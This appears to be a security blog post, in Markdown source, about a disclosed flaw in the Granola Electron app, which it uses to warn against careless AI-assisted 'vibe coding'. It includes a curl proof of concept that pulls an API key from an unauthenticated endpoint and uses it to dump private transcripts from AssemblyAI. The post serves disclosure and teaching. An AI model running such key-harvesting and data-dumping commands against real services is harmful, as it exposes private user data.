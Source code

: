 ```yaml
---
author: Jonathan Haas
pubDate: 2025-05-12
title: "When Vibe Coding Goes Wrong: Security Lessons from Granola"
description: 
  Vibe coding shifts software creation from careful engineering to casual AI generation. When startups skip security fundamentals, the consequences aren't just bugs—they're breaches. Here's what the Granola incident teaches us.
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - AI-development
  - product-security
  - electron-apps
image:
  url: "https://images.pexels.com/photos/669618/pexels-photo-669618.jpeg?auto=compress&cs=tinysrgb&w=1260&h=750&dpr=2"
  alt: "Crumbling wall symbolizing fragile security foundations"
---
```


# When Vibe Coding Goes Wrong: Security Lessons from Granola

Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
2. **Read** through the JavaScript.
3. **Find** API endpoints embedded directly in the client.
4. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
5. **Extract** an AssemblyAI API key from the feature flags.
6. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

```bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly_key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript_ids
cat transcript_ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.  
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."  
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"  

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:  
Prompt, ship, _hope it works_.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.  
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")
  
You’re not just moving fast.  
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:  
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.  
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.  
Helpful? Sometimes.  
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.  
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.  
Use proper backend proxying.  
Scope keys narrowly.  
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.  
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?  
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.  
But ship safe.

Granola’s mistake is a flashing neon sign:  
🚨 *The vibes are not enough.* 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.  
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
